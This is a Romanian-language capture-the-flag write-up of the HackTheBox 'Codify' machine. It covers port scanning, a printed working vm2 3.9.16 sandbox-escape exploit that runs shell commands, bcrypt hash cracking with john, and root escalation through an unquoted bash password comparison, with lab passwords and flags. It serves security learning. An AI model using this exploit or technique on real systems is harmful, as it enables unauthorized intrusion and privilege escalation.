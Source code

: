 1. Scanam masina ca sa gasim porturile deschise pe masina
```bash
nmap -sSCV -T 4 -p- -oN /home/h1p/HackTheBox/Labs/codify.nmap.scan 10.10.11.239
```
![[Pasted image 20231109143707.png]]
Vedem 2 porturi deschise 22 [[Tools/Networking tool/ssh]] si 80 [[HTTP]]
2. Adaugam in fisierul `/etc/hosts` hostul nostru `10.10.11.239    codify.htb`
![[Pasted image 20231109143834.png]]
3. Putem vedea ce fel de framework lucreaza aplicatia noastra.
![[Pasted image 20231110112419.png]]
Vedem si codul sursa
![[Pasted image 20231110112514.png]]
Avem si versiune exacta la acest framework `vm2 3.9.16`
4. Pe google facem un search pentru vulnerabilitatea data ca sa vedem daca nu gasim o vulnerabilitate.
![[Pasted image 20231110112654.png]]
`Proof of concept` este singur codul pentru exploit din emaginea mai sus vedem ca este vulnerabil si este si exploitul aici -> https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244
```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```
In loc de `touch pwned` punem orice commanda care dorim sa se execute.
![[Pasted image 20231110113009.png]]
Nu putem primi un revers shell din care motive nu stiu.
![[Pasted image 20231110113208.png]]
Facem in felul urmator:
a) Rulam un server cu ajutorul lui [[python3]] 
![[Pasted image 20231110115301.png]]
b) Acesam shell sil transmitem in bash
![[Pasted image 20231110115329.png]]
c) Vualea avem si shell-ul 
![[Pasted image 20231110115359.png]]
d) Dar nu avem flagul de user deci trebuie sa primim cumva aces la utilizatorul `joshua`
5. Am gasit ceva dar este in forma de hash:
![[Pasted image 20231110120914.png]]
```hash
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```
6. Cu ajutorul la [[john]] putem sa spargem parola:
```bahs
john -w=/usr/share/wordlist.txt hash.joshua
```
![[Pasted image 20231110121448.png]]
Parola este ->`spongebob1`
7. Ne logam ca `joshua` cu [[Tools/Networking tool/ssh]] care este pe portul 22.
`ssh`
![[Pasted image 20231110121709.png]]
8. Am gasit si vectorul ca sami ridic privilegile.
![[Pasted image 20231110121823.png]]
9. Am uitat sa inregistres flagul pentru user 
User flag -> `23f9cc65993bc189e354dab8f860f41c`
![[Pasted image 20231110122009.png]]
10. Continuam acesta este continutul scriptului nostru:
```bash
#!/bin/bash  
DB_USER="root"  
DB_PASS=$(/usr/bin/cat /root/.creds)  
BACKUP_DIR="/var/backups/mysql"  
  
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS  
/usr/bin/echo  
  
if [[ $DB_PASS == $USER_PASS ]]; then  
       /usr/bin/echo "Password confirmed!"  
else  
       /usr/bin/echo "Password confirmation failed!"  
       exit 1  
fi  
  
/usr/bin/mkdir -p "$BACKUP_DIR"  
  
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;  
" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")  
  
for db in $databases; do  
   /usr/bin/echo "Backing up database: $db"  
   /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bi  
n/gzip > "$BACKUP_DIR/$db.sql.gz"  
done  
  
/usr/bin/echo "All databases backed up successfully!"  
/usr/bin/echo "Changing the permissions"  
/usr/bin/chown root:sys-adm "$BACKUP_DIR"  
/usr/bin/chmod 774 -R "$BACKUP_DIR"  
/usr/bin/echo 'Done!'
```
Din scriptul de mai sus vedem ca variabila DB_PASS se transmite in clear text aceasta inseamna ca noi putem so vedem cu ochi dar in output ea nu este trebuie sa monitorizam procesele pentru a vedea acest lucru.
11. pspy64 ne permite acest lucru.
![[Pasted image 20231110123433.png]]
12. Dar mai este o problema el verifica cu un if daca passwor-durile sunt drepte si in cazul dat trebuie sa cunoastem cum se efectueaza aceste conditii.
In cazul nostru `$DB_PASS == $USER_PASS` nu se folosecte virgule la variabele deci daca facem constructia data de felul  `$DB_PASS == *` ea va returna `true`.
![[Pasted image 20231110124008.png]]
Acest lucru lucreaza lol kek
Avem si parola pentru root:
![[Pasted image 20231110124057.png]]
`-p` - este flag el nu este simbol al parolei
Parola pentru root `kljh12k3jhaskjh12kjh3`
![[Pasted image 20231110124207.png]]
Root flag `192de51b83fb386f97f3594ca94ec011`